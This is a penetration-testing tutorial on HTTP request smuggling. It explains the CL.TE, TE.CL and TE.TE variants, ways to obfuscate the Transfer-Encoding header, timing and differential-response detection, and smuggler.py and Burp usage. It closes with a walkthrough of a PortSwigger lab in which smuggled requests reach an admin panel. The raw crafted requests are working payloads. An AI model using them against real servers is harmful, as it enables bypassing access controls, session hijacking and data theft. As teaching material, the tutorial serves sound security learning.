


# HTTP Request Smuggling

## Theory

`HTTP request smuggling` takes advantage of discrepancies in parsing non-RFC compliant HTTP requests through two HTTP devices, typically a backend server and a HTTP-aware firewall or front-end proxy. The HTTP request smuggling process is performed by constructing multiple customized HTTP requests. This allows two target entities to see two different sets of requests.

In fact, users send requests to a front-end server that will forward them to a back-end server. Therefore, requests are sent one after another, and the receiving server parses the HTTP request headers to determine where one request ends and the next one begins. In this case, the front-end and the back-end need to agree about the boundaries between requests. Otherwise an attacker might be able to send an ambiguous request.


HTTP request smuggling happens because the HTTP specification provides two different ways to specify where a request ends:  the `Content-Length` header and the `Transfer-Encoding` header.


Content-Length: the length of the message body is specified in bytes (\r\n included)
Transfer-Encoding: the length of chunck in bytes (hexadecimal encoding - \r\n included)


HTTP request smuggling vulnerability occurs when an attacker sends both headers in a single request. This can cause either the front-end or the back-end server to incorrectly interpret the request, passing through a malicious HTTP query.

Performing a request smuggling attack can lead to :

* Gain access to protected resources, such as admin consoles
* Gain access to sensitive data
* Hijack sessions of web users
* Perform credential hijacking
* Launch cross-site scripting (XSS) attacks without requiring any action from the user


### Content-Length.Transfer-Encoding (CL.TE)

In `CL.TE` RS (Request Smuggling) the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header. We can craft the follow HTTP request :

```HTTP
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked
 
0
MALICIOUS-REQUEST
```

Further explanation will be given in the practice part.

### Transfer-Encoding.Content-Length (TE.CL)

In `TE.CL` RS (Request Smuggling) the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can craft the follow HTTP request to exploit :

```HTTP
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

15

MALICIOUS-REQUEST

0
```

Further explanation will be given in the practice part.

### Transfer-Encoding.Transfer-Encoding (TE.TE)

When the front-end and back-end both support Transfer-Encoding header, you can obfuscate one the TE header so one of the server will be induced not to process the request. Here are ways to obfuscate the Transfer-Encoding header :

```HTTP
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Here, you can find a summary table made by Spidersec : 


## Practice

### Finding HTTP request smuggling using timings techniques

One way to identify Request Smuggling is the time delay after sending this `CL.TE` request (this technique can also be used for `TE.CL`) for example : 

```HTTP
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

In this request, the front end uses the Content-Length header, so it will forward 4 bytes of this request, omitting the X. The back-end, using the Transfer-Encoding header, will processes the first chunk and waits for the next, this will cause a huge time delay.

### Finding HTTP request smuggling using differential responses

After identifying a probable request smuggling vulnerability, you can try to trigger differences in the contents of the application's responses. This involves sending two requests to the application in quick succession:

* An "attack" request that is designed to interfere with the processing of the next request.
* A "normal" request.

Here is an example with a `TE.CL` :

```HTTP
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

In this case, the front-end processes the Transfer-Encoding header, it treats the message body as using chunked encoding which is stated 7c bytes long, up to the beginning of the line following the second request. It processes the second chunk, which is stated to be zero length (cause it end by 0), and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end uses the Content-Length header and determine that the request is 4 bytes long, up to the start of the line following 7c.
The following bytes, starting with GET, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.


If you are using the Burp Repeater, always ensure that the "Update Content-Length" option is unchecked for TE.CL since you need to change the Content-Length to trigger the vulnerability. You need to include the trailing sequence \r\n\r\n following the final 0.


## Identiying summary 

	* Is there a front-end and a back-end ?
	* Can you identify if they are using CL.TE or TE.CL or TE.TE ?
	* Can you trigger differentials responses when you smuggle a request and sent it multiple times ?
	* Can you trigger timing delay in responses when you smuggle a request and sent it multiple times ?
	* If HTTP/2 is used, can you downgrade it to perform H2.CL or H2.TE ?


## Exploits

### Using smuggler.py to identify HTTP Request Smuggling

For a single host :

```BASH
python3 smuggler.py -u <URL>
```

List of hosts : 

```BASH
cat list_of_hosts.txt | python3 smuggler.py
```


### Using Burp Suite


You can install the HTTP Request Smuggler Extension on the Bapp Store.


- You can scan for possible HTTP Request Smuggling with the `scan` option (duh) or launch an auto smuggle with `Smuggle Prob` option (You need to have BurpSuite Collaborator to do that)

If `Smuggle Prob` didn't succeed to exploit a HTTP Request Smuggling but identified it OR you already started to manually smuggle a request in the `repeater tab`: 
- You can use the turbo intruder -> right click on the request -> Extensions -> HTTP Request Smuggler -> Smuggle Attack (CL.TE or TE.CL, depending on what you or `Smuggle Prob` identified)

In the screenshot below, we identified a CL.TE RS. We are trying to access the admin panel. As you can see, we changed the prefix. `The prefix will be the smuggle part of the request.`



The turbo intruder will help us by `finding the right Content-length header` to smuggle the attack properly (this part is always tricky to perform).



As you can see here, we got access to the admin panel !


### Example of manual TE.CL exploit on PortSwigger LAB (goal is (again) to access to the admin panel)


1. Identify the HTTP Request Smuggling, you can either use : 
- HTTP Request Smuggler Extension
- Manual requesting with differential responses or timings techniques
- Smuggler.py

That's the initial request

```HTTP 
GET / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

2. First, we try to smuggle the request by changing the GET to POST and adding TE and CL Header. `ALWAYS UNCHECK UPDATE CONTENT LENGTH AND ADD \r\n\r\n FOLLOWING THE FINAL 0 FOR TE.CL REQUEST SMUGGLING` 

```HTTP
POST / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

3. We got a problem because we are getting blocked by the back-end. In fact, the back-end need the header `Host : localhost` for the second request. Change the byte's number from 60 to 71 because we added the host header. Using this request, we have access to the admin panel ! :)

```HTTP
POST / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```


## Tools

* Smuggler.py 
* HTTP Request Smuggler Extension on Burp Suite 

## Resources








